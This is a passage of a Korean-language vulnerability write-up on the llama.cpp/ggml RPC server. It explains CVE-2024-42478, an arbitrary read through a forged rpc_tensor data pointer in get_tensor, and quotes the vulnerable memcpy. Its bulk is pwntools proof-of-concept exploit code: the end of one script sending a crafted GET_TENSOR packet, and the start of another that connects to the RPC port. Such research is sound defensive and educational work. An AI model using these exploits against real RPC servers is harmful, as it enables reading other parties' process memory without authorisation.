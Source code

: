 ```
            p64(0xdeadbeef),  # data
            'a' * 64,  # name
            'x' * 4  # padding
        ],
    }
)
cmd = p8(GET_TENSOR)
content = flat(
    {
        0: rpc_tensor_pd + p64(0) + p64(0x100)
    }
)
input_size = p64(len(content))
pd+= cmd + input_size + content

p.send(pd)
p.recvall(timeout=1)

p.close()

```

### CVE-2024-42478 (Arbitrary Read)

rpc_tensor 구조체의 data 멤버를 조작해서 원하는 메모리 주소의 값을 읽어들일 수 있는 취약점입니다. 관련한 함수는 다음과 같습니다. memcpy 를 통해 tensor→data +offset 를 size 만큼 읽어 data 변수에 배치합니다. 이 또한 get_tensor 를 할 때 발생합니다.

```
GGML_CALL static void ggml_backend_cpu_buffer_get_tensor(ggml_backend_buffer_t buffer, const struct ggml_tensor * tensor, void * data, size_t offset, size_t size) {
    memcpy(data, (const char *)tensor->data + offset, size);

    GGML_UNUSED(buffer);
}

```

### PoC (CVE-2024-42478)

이 취약점의 PoC 입니다. get_device_memory, get_alignment 를 호출하고 (아마 초기화 과정으로 유추합니다.) alloc_buffer 로 0x100 만큼 할당한 메모리 주소에 오프셋 0x160 만큼 더한 주소를 읽고 있습니다.

```
from pwn import *

ALLOC_BUFFER = 0
GET_ALIGNMENT = 1
GET_MAX_SIZE = 2
BUFFER_GET_BASE = 3
FREE_BUFFER = 4
BUFFER_CLEAR = 5
SET_TENSOR = 6
GET_TENSOR = 7
COPY_TENSOR = 8
GRAPH_COMPUTE = 9
GET_DEVICE_MEMORY = 10

context(arch='amd64',log_level = 'debug')

base_memory = 0x0


p = remote("127.0.0.1",50052)
pd = b''
cmd = p8(GET_DEVICE_MEMORY)
```